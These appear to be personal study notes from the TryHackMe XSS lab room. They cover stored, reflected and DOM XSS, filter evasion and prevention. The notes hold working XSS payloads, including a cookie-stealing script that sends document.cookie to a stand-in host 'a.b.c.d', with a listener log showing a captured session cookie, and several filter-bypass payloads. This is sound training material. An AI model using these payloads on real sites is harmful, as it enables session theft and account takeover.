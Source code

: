 # Room
https://tryhackme.com/room/xss

# Task 1 - Intro
XSS = Cross-site Scripting.  A vulnerability usually found in web applications that allows an attacker to execute malicious scripts.  Unsanitized user input is the common attack vector.  XSS is possible in Javascript, VBScript, Flash, and CSS.
* Two main categories
    * Persistent/Stored
    * Reflected
* Cooking Stealing - a cookie that is stolen from an authenticated session
* Keylogging - a record of your keystrokes sent to an attacker
* Webcam Snapshot - taking pictures from a compromised webcam
* Phishing - insertion of fake logins or redirection to clone sites that steal your info
* Port Scanning - using stored XSS to port scan an internal network

# Task 2 - Deploy
Deploy test machine

# Task 3 - Stored XSS
The most dangerous type of XSS.
1. Attacker inserts malicious payload into website database
2. For every visit to the website the malicious script is activated
3. The data is gathered and sent to the attacker which could be the victim's cookie or other data

* Example payload
    ```
    <script>alert(1)</script>
    ```
* Display cookie
    ```
    <script>alert(document.cookie)</script>
    ```
* Change span text
    ```
    </script>document.getElementById("span").textContent="text";</script>
    ```
* Grab cookies
    ```
    <script>window.location='http://a.b.c.d/?cookie='+document.cookie</script>

    sudo python3 -m http.server 80

    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    a.b.c.d - - [03/Feb/2021 19:02:30] "GET /?cookie=connect.sid=s%3AsDYS6z6eLmN-HwTWN6WixeJnn-zpCUPL.%2Fjg%2BcVRIrTYJZM9aR7sO075eA0aFlqk8OdIzdK4aL3s HTTP/1.1" 200 -
    ```

# Task 4 - Reflected XSS
Reflected XSS has the payload being a part of the victim's request to the website.
1. Attacker sends malicious link to victim
2. Victim clicks link and is taken to vulnerable website
3. Link containing attacker's script executes
4. Data that attacker's script gathers is sent to attacker which could be the victim's cookie or other data
* Example payload
    ```
    http://example.com/search?keyword=<script>...</script>
    ```
* Reflect Hello
    ```
    <script>alert("Hello")</script>
    ```
* Reflect IP address
    ```
    <script>alert(window.location.hostname)</script>
    ```

# Task 5 - DOM-Based XSS
DOM stands for Document Object Model and is the programming interface for HTML and XML.
* DOM reference
    * https://www.w3schools.com/js/js_htmldom.asp
* DOM based XSS is only executed when the vulnerable JavaScript code is loaded or interacted with
* XSS reference
    * https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

# Task 6 - XSS for IP and Port Scanning
Port scanning is available via XSS.
* Reference
    * https://github.com/aabeling/portscan

# Task 7 - XSS Keylogger
Listening for key strokes is also possible.

# Task 8 - Filter Evasion
Filters are put into place as an attempt to block malicious payloads.
* Bypass script tags
    ```
    <iframe src=# onmouseover="alert('Hello')"></iframe>
    ```
* Bypass alert string
    ```
    <iframe src=# onmouseover="prompt('Hello')"></iframe>
    ```
* Bypass hello
    ```
    <img src=# onmouseover="alert('HelloHello')"></img>
    ```
* Bypass most on events
    ```
    <img src=# onclick="alert('HelloHello')"></img>
    ```
* References
    * https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
    * https://owasp.org/www-community/xss-filter-evasion-cheatsheet
    * https://developer.mozilla.org/en-US/docs/Web/API/GlobalEventHandlers/onerror

# Task 9 - Protection Methods & Other Exploits
Ways to prevent XSS
* Escaping - escape all user input
* Validate - do not allow certain characters to be submitted
* Sanitizing - change unacceptable formats to acceptable formats

Ohter Exploits
* XSS can have as much impact as other vulnerabilities
* XSS is most often chained to achieve a bigger/better exploit

Tools
* BeEF - hook a browser using XSS
    * https://beefproject.com/
* XSS payloads
    * http://xss-payloads.com/